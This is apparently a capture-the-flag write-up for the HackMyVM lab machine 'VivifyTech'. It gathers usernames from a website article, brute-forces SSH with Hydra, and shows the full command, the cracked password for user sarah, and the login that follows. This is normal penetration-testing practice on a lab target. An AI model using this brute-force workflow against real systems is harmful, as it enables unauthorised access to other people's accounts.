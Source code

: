 ```bash
100   439  100   439    0     0   208k      0 --:--:-- --:--:-- --:--:--  214k

```
 On the website we saw a post with the title: 'The story behind VivifyTech'. We should gather all names in this article since they could be potential usernames.

![image](/assets/img/WriteUp/HackMyVM/VivifyTech/Pasted image 20231228133549.png){: width="700" height="400" }

Now we should create a user list so we can brute force against the SSH service with Hydra.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/VivifyTech]
└─$ nano users 

┌──(emvee㉿kali)-[~/Documents/HMV/VivifyTech]
└─$ cat users                  
sarah
mark
emily
jake
alex
sancelisso
```


We got now a two files with potential usernames and passwords. Since there was a SSH service running on port 22 we could try to brute force it with Hydra.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/VivifyTech]
└─$ hydra ssh://$ip -L users  -P secrets.txt -I
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-28 11:31:24
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 288 login tries (l:6/p:48), ~18 tries per task
[DATA] attacking ssh://10.0.2.37:22/
[22][ssh] host: 10.0.2.37   login: sarah   password: bohicon
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```
Hydra did found a password for the user sarah. We can stop the brute force attack and gain access to the SSH service.
## Initial access
Let's connect as sarah to the SSH service.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/VivifyTech]
└─$ ssh sarah@$ip                      
The authenticity of host '10.0.2.37 (10.0.2.37)' can't be established.
ED25519 key fingerprint is SHA256:i4eLII3uzJGiSMrTFLLAnrihC0r7/y6uuO7YMmGF7Rs.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.0.2.37' (ED25519) to the list of known hosts.
sarah@10.0.2.37's password: 
Linux VivifyTech 6.1.0-13-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.55-1 (2023-09-29) x86_64
#######################################
 #      Welcome to VivifyTech !      #
 #      The place to be :)           #
#######################################
Last login: Tue Dec  5 17:54:16 2023 from 192.168.177.129
sarah@VivifyTech:~$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
```